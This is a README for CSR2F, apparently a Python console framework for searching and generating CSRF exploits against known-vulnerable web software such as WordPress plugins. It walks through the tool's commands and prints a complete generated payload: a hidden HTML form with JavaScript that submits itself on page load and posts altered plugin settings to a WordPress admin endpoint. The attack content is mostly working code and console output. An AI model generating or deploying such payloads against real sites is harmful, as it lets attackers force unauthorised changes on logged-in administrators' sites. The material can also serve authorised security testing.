 CSR2F
=====

CSR2F (Cross-Site Request Forgery Framework) is an open source tool written in Python and used for generating CSRF (Cross-Site Request Forgery) exploits.
It allows you to search an exploit for a specific case (for example a vulnerable WordPress plugin), then to configure and generate the HTML code.


Prerequisites
----

* CSR2F uses [Python 3](http://www.python.org/download/) to run.


Installation
----

You can download the latest tarball by clicking [here](https://github.com/ncrocfer/csr2f/tarball/master) or latest zipball by clicking [here](https://github.com/ncrocfer/csr2f/zipball/master).

Preferably, you can download CSR2F by cloning the [Git](https://github.com/ncrocfer/csr2f) repository:

    git clone https://github.com/ncrocfer/csr2f.git


Usage
----

You must execute the `csr2f.py` file to start CSR2F and obtain a prompt:

    shatter@shatter:~/csr2f$ python3 csr2f.py

    *********************************************************
    *                                                       *
    *     ______   ______   _______      _____   ________   *
    *   .' ___  |.' ____ \ |_   __ \    / ___ `.|_   __  |  *
    *  / .'   \_|| (___ \_|  | |__) |  |_/___) |  | |_ \_|  *
    *  | |        _.____`.   |  __ /    .'____.'  |  _|     *
    *  \ `.___.'\| \____) | _| |  \ \_ / /_____  _| |_      *
    *   `.____ .' \______.'|____| |___||_______||_____|     *
    *                                                       *
    *         Cross Site Request Forgery Framework          *
    *                                                       *
    * Version  : 0.1b                                       *
    * Author   : Nicolas Crocfer                            *
    * Website  : http://csr2f.github.com                    *
    * Licence  : GPLv3                                      *
    *                                                       *
    *********************************************************

    [+] 207 exploits loaded

    csr2f> 


**help**

This command describes the other commands and shows their usage.

    csr2f> help

    Commands	Description
    ========	===========

    config  	Display the configuration options
    clear   	Clear the current screen
    search  	Search an exploit based on keyword
    show    	Display informations about an exploit based on its ID
    set     	Set special fields for an exploit
    generate	Generate the exploit to the console or in a file
    ...			...

    csr2f> help config

    This command is used to view and modify the basic configuration. You
    can view it by typing 'config' without argument.

    Usage:	config <item> <value>
    Ex:	config host_url http://www.example.com

    csr2f>


**config**

This command is used to view and modify the basic configuration.

    csr2f> config

        Config			Value
        ======			=====
    
        host_url		http://www.example.com
        redirect		False
        html_skeleton	True
        html_title		CSR2F : Cross Site Request Forgery Framework
        redirect_url	http://www.example.com

    csr2f> config redirect True
    [+] The value has been modified
    csr2f>


**search**

You can search an exploit based on keywords by using the `search` command.

    csr2f> search wordpress plugin

    Date           ID      Method     Name                           Description
    ====           ==      ======     ====                           ===========
  
    2013-04-11     112     POST       Wordpress FunCaptcha plug...   A CSRF vulnerability allows to disable...
    2013-03-25     134     POST       Wordpress Mathjax Latex P...   There is no CSRF protection on the mat...
    2013-03-01     175     POST       WordPress SolveMedia 1.1.0     SolveMedia is a capatcha service that ...
    ...            ...     ...        ...                            ...

    csr2f>


**show**

This command is used to show the informations about an exploit (author, description, configuration...). 

    csr2f> show 112

    Informations
    ============

        Name : Wordpress FunCaptcha plugin 0.3.2
        ----
    
        Description
        -----------
        A CSRF vulnerability allows to disable the plugin by submitting an invalid private or public key.
    
        Author : Nicolas Crocfer (http://www.shatter.fr)
        ------
    
        Method & Path : (POST) /wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php
        -------------

    Configuration
    =============

    	funcaptcha[public_key] => foo
    	----------------------
    	Value of the new public key

    	funcaptcha[private_key] => bar
        -----------------------
        Value of the new private key

    csr2f>


**set**

Each exploit can contain special fields that you can edit (for example a username, a password, an email adress...). This command is used to	change these values.

    csr2f> set 112 funcaptcha[public_key] 1234
    [+] The value has been modified
    csr2f>

**generate**

This command is used to generate the HTML exploit. You can display it on the screen by typing `generate <id>` without other argument. You can also pass a filename to create a new file.

    csr2f> generate 112

    <!DOCTYPE html>
    <html>
      <head>
          <meta charset="utf-8"/>
          <title>
              CSR2F : Cross Site Request Forgery Framework
          </title>
      </head>
      <body>
        <form action="http://www.example.com/wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php" id="csr2f" method="post">
          <input name="funcaptcha[public_key]" type="hidden" value="foo"/>
          <input name="funcaptcha[private_key]" type="hidden" value="bar"/>
          <input name="funcaptcha[action]" type="hidden" value="settings"/>
          <input name="funcaptcha[type]" type="hidden" value="Settings"/>
        </form>
        <script type="text/javascript">
          document.getElementById("csr2f").submit();
        </script>
      </body>
    </html>

    csrf2> generate 112 index.html
    [+] The file was created in 'output' folder
    csrf2>


**Other commands**

* `clear` : Clear the user screen
* `update` : Update the exploits list
* `exit` : Exit the console


Creating a new exploit
----

For the time being, CSR2F does not include a lot of exploits. I am currently incorporating the ones already online on [exploit-db.com](http://www.exploit-db.com/search/?action=search&filter_description=csrf).

But the goal of this framework is to be the reference for CSRF vulnerabilities : so I encourage you to integrate your exploit to this tool when you discover a new vulnerability, and thereby increase the list with your contributions.

CSR2F uses a simple template for integrating new exploits. Each exploit is located in the `exploits` folder. For the moment this tool is still in Beta version, so I am waiting the return of beta testers to see if I need to add or modify the template system and then update this documentation. Anyway you can view the existing templates and tell me what do you think about.


Oh, one last thing
----

I'm a French developer, my English is not perfect and I thank you in advance to tell me my mistakes :)